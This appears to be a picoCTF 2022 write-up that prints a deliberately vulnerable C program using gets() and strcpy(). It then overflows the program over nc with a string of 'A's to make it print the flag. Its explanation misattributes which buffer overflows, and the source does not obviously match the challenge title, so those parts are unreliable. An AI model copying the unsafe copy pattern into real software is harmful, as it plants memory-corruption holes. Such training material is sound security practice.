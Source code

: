 # basic-file-exploit - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 100 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## basic-file-exploit Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

We need to trigger the signal ```SIGSEGV``` which is ```segmentation fault```, We can do it by overflow from ```buf1[100]``` with 101 characters, Let's do it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/basic_file_exploit]
└──╼ $ nc saturn.picoctf.net 55986
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}
```

And we get the flag ```picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}```.
